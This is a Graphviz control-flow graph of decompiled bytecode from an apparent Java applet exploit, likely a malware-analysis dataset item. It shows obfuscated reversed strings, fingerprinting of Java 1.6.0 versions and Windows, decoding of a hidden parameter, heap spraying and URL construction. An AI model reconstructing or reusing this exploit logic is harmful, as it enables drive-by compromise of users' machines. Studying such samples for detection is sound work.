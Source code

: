 digraph "" {
    "r0 := @this: kav.sucks"
    "goto new java.lang.StringBuffer"
    "r0 := @this: kav.sucks"->"goto new java.lang.StringBuffer";
    "new java.lang.StringBuffer"
    "goto new java.lang.StringBuffer"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"at\""
    "dup1.r"->"push \"at\"";
    "push \"ad\""
    "push \"at\""->"push \"ad\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"ad\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r4"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"//:e\""
    "dup1.r"->"push \"//:e\"";
    "push \"lif\""
    "push \"//:e\""->"push \"lif\"";
    "push \"lif\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "pop"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"pop";
    "pop"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"noi\""
    "dup1.r"->"push \"noi\"";
    "push \"sre\""
    "push \"noi\""->"push \"sre\"";
    "push \"sre\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"v.a\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"v.a\"";
    "push \"v.a\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"vaj\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"vaj\"";
    "push \"vaj\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"09090909\""
    "dup1.r"->"push \"09090909\"";
    "push \"09090909\""->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r16"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r16";
    "store.r r16"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"ema\""
    "dup1.r"->"push \"ema\"";
    "push \"n.so\""
    "push \"ema\""->"push \"n.so\"";
    "push \"n.so\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r20"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r20";
    "store.r r20"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"n\""
    "dup1.r"->"push \"n\"";
    "push \"iw\""
    "push \"n\""->"push \"iw\"";
    "push \"iw\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "store.r r24"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"store.r r24";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "store.r r24"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "store.r r25"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"store.r r25";
    "load.r r0"
    "store.r r25"->"load.r r0";
    "load.r r4"
    "load.r r0"->"load.r r4";
    "virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>"
    "load.r r4"->"virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>";
    "store.r r26"
    "virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>"->"store.r r26";
    "push 1"
    "store.r r26"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r r28"
    "newarray"->"store.r r28";
    "load.r r28"
    "store.r r28"->"load.r r28";
    "push 0"
    "load.r r28"->"push 0";
    "push 63"
    "push 0"->"push 63";
    "arraywrite.c"
    "push 63"->"arraywrite.c";
    "arraywrite.c"->"push 0";
    "store.i $r56"
    "push 0"->"store.i $r56";
    "store.i $r56"->"push 0";
    "store.i $r51"
    "push 0"->"store.i $r51";
    "goto load.r r26"
    "store.i $r51"->"goto load.r r26";
    "load.r r26"
    "goto load.r r26"->"load.r r26";
    "load.i $r56"
    "load.r r26"->"load.i $r56";
    "virtualinvoke <java.lang.String: char charAt(int)>"
    "load.i $r56"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"load.r r28";
    "load.r r28"->"push 0";
    "arrayread.c"
    "push 0"->"arrayread.c";
    "ifcmpne.c load.i $r51"
    "arrayread.c"->"ifcmpne.c load.i $r51";
    "ifcmpne.c load.i $r51"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r r28";
    "store.r r28"->"load.r r28";
    "load.r r28"->"push 0";
    "load.i $r51"
    "push 0"->"load.i $r51";
    "push 7"
    "load.i $r51"->"push 7";
    "add.i"
    "push 7"->"add.i";
    "push 256"
    "add.i"->"push 256";
    "rem.i"
    "push 256"->"rem.i";
    "rem.i"->"push 1";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "store.r $r51"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"store.r $r51";
    "push \"toH\""
    "store.r $r51"->"push \"toH\"";
    "push \"ex\""
    "push \"toH\""->"push \"ex\"";
    "push \"ex\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"Str\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"Str\"";
    "push \"Str\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"i\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"ng\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"ng\"";
    "push \"ng\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r $r56"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r $r56";
    "store.r $r56"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "arraywrite.r"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r26";
    "load.r $r51"
    "load.r r26"->"load.r $r51";
    "load.r $r56"
    "load.r $r51"->"load.r $r56";
    "load.r $r56"->"load.r r28";
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"
    "load.r r28"->"staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "checkcast"
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r28";
    "new java.lang.StringBuilder"
    "store.r r28"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"dese\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"dese\"";
    "push \"rialize=\""
    "push \"dese\""->"push \"rialize=\"";
    "push \"rialize=\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r28";
    "load.r r28"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "push -1"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i load.r r25"
    "push -1"->"ifcmpne.i load.r r25";
    "return"
    "ifcmpne.i load.r r25"->"return";
    "load.r r25"
    "ifcmpne.i load.r r25"->"load.r r25";
    "push \"1.\""
    "load.r r25"->"push \"1.\"";
    "push \"6.\""
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"0_1\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"1\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"1\"";
    "push \"1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 1"
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"0_\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_\"";
    "push \"0_\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"12\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"12\"";
    "push \"12\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"3\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"4\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_\"";
    "push \"0_\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"15\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"15\"";
    "push \"15\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "load.r r25"->"push \"1.\"";
    "push \"1.\""->"push \"6.\"";
    "push \"6.\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"0_1\"";
    "push \"0_1\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"6\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"6\"";
    "push \"6\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r28"
    "push 0"->"store.b r28";
    "store.b r28"->"goto load.r r26";
    "goto load.r r26"->"load.r r26";
    "push \"i=1\""
    "load.r r26"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i push 0"
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b $r51"
    "push 1"->"store.b $r51";
    "goto load.b r28"
    "store.b $r51"->"goto load.b r28";
    "load.b r28"
    "goto load.b r28"->"load.b r28";
    "load.b $r51"
    "load.b r28"->"load.b $r51";
    "and.b"
    "load.b $r51"->"and.b";
    "ifeq load.r r25"
    "and.b"->"ifeq load.r r25";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "ifeq load.r r25"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"\u041b\u0430\u0436\u04301!!!\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"\u041b\u0430\u0436\u04301!!!\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"\u041b\u0430\u0436\u04301!!!\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "push 47"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 47";
    "push 303"
    "push 47"->"push 303";
    "staticinvoke <kav.sucks: java.lang.String repeat(char,int)>"
    "push 303"->"staticinvoke <kav.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <kav.sucks: java.lang.String repeat(char,int)>"->"pop";
    "load.r r20"
    "pop"->"load.r r20";
    "load.r r20"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "load.r r24"
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "push 302"->"staticinvoke <kav.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <kav.sucks: java.lang.String repeat(char,int)>"->"store.r r28";
    "goto new java.lang.StringBuilder"
    "store.r r28"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"11\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r51";
    "push \"\""
    "store.r $r51"->"push \"\"";
    "push \"\""->"store.r $r56";
    "store.r $r56"->"push 0";
    "store.i i53"
    "push 0"->"store.i i53";
    "goto load.i i53"
    "store.i i53"->"goto load.i i53";
    "load.i i53"
    "goto load.i i53"->"load.i i53";
    "load.i i53"->"load.r $r51";
    "virtualinvoke <java.lang.String: int length()>"
    "load.r $r51"->"virtualinvoke <java.lang.String: int length()>";
    "ifcmplt.i new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int length()>"->"ifcmplt.i new java.lang.StringBuilder";
    "goto load.r $r56"
    "ifcmplt.i new java.lang.StringBuilder"->"goto load.r $r56";
    "goto load.r $r56"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.String: int length()>";
    "push 8"
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "ifne new java.lang.StringBuilder"
    "rem.i"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r $r56";
    "load.r r16"
    "load.r $r56"->"load.r r16";
    "virtualinvoke <kav.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "load.r r16"->"virtualinvoke <kav.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "fieldput <kav.sucks: java.nio.IntBuffer[] mem>"
    "virtualinvoke <kav.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <kav.sucks: java.nio.IntBuffer[] mem>";
    "push class \"Ljava/net/URL;\""
    "fieldput <kav.sucks: java.nio.IntBuffer[] mem>"->"push class \"Ljava/net/URL;\"";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"
    "push class \"Ljava/net/URL;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r28";
    "load.r r28"->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "staticinvoke <dev.s.runer: java.lang.Object constructor(java.lang.String,java.lang.Object[],java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <dev.s.runer: java.lang.Object constructor(java.lang.String,java.lang.Object[],java.lang.Class[])>";
    "staticinvoke <dev.s.runer: java.lang.Object constructor(java.lang.String,java.lang.Object[],java.lang.Class[])>"->"checkcast";
    "checkcast"->"store.r r28";
